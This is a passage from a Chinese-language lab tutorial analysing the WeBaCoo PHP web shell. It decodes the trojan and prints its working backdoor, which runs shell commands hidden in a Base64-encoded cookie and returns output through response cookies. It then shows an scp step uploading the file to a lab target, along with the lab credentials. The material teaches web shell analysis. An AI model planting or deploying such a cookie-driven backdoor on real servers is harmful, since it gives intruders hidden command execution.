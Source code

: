 
引用 `Base64` 模块进行解密，得到攻击者的最初意图代码。由解密出来的代码，可以明显的看出，代码第一步先判断 Cookie 是否设置。这里我们再回顾下 WeBaCoo 是什么原理介绍部分。其中有如下这一句话，文档中指出了 Shell 命令编码后，隐藏在 Cookie 头中：

> WeBaCoo 创建 PHP 木马程序，使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码后，隐藏在 Cookie 头中。

而代码中 `2>&1` 的意思是：

> 对于 & 1 更准确的说应该是文件描述符 1，而 1 一般代表的就是 STDOUT_FILENO，实际上这个操作就是一个 dup2（2） 调用。他标准输出到 all_result，然后复制标准输出到文件描述符 2（STDERR_FILENO），其后果就是文件描述符1和2指向同一个文件表项，也可以说错误的输出被合并了。

```
# 函数 isset() 用于检测变量是否设置，这里的作用是 Cookie 是否设置
if(isset($_COOKIE['cm'])){

    # 启动
    ob_start();
    
    # 使用 base64_decode 对 shell 命令进行解码
    system(base64_decode($_COOKIE['cm']).' 2>&1');
    
    # 设置 cookie 参数，并使用 base64_encode 进行编码
    setcookie($_COOKIE['cn'],$_COOKIE['cp'].base64_encode(ob_get_contents()).$_COOKIE['cp']);
    
    # 关闭
    ob_end_clean();
}
```


### 4.3 上传到目标靶机

通过上面的木马源码分析，我们了解到 WeBaCoo 创建 PHP 木马文件之后，对木马文件使用 Base64 加密，并使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码，隐藏在 Cookie 头中。一般情况下，在生成木马文件后，会将木马程序上传到目标主机，进而感染目标主机，建立会话通道。输入如下命令，将木马上传：

```
# 将木马文件，复制上传到目标主机
scp hello.php shiyanlou@192.168.122.1:/tmp
```
**注意： 连接实验楼宿主主机的账号为 `shiyanlou`，对应的密码是 `shiyanlou`:**

![图片描述](../imgs/1480993526850.png-wm.png)
